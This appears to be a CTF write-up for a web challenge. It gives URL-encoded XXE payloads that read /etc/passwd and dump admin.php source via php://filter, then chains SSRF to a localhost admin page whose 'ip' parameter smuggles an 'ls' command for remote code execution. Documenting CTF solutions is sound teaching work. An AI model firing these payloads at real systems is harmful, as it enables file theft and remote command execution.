 # AtHack-Admin
Write up for #AtHack CTF web challenge 

## حل التحدي بالعربي في تويتري
https://twitter.com/omarxtream/status/1466683905520680961

## Write up in english:

The attacker enters the home page but finds nothing and after guessing the files, he will find two pages
The first is the login.php page, which contains a text field called authentication
Which contains XXE and through it the attacker will be able to get the LFI and then he will be able to read the source code for the login.php page and the admin.php page

authentication=<%3fxml+version%3d"1.0"%3f><!DOCTYPE+root+[<!ENTITY+test+SYSTEM+'file%3a///etc/passwd'>]><root><user>%26test%3b</user></root>

authentication=<%3fxml+version%3d"1.0"%3f><!DOCTYPE+root+[<!ENTITY+test+SYSTEM+'php://filter/convert.base64-encode/resource=admin.php'>]><root><user>%26test%3b</user></root>

And he will find that the admin needs to send a request through the localhost
There is also an ip parameter that enters the system function with the ping command
Through this, the attacker will try to get a RCE

authentication=<%3fxml+version%3d"1.0"%3f><!DOCTYPE+root+[<!ENTITY+test+SYSTEM+'php://filter/convert.base64-encode/resource=http://localhost/admin.php?ip=123%250als'>]><root><user>%26test%3b</user></root>
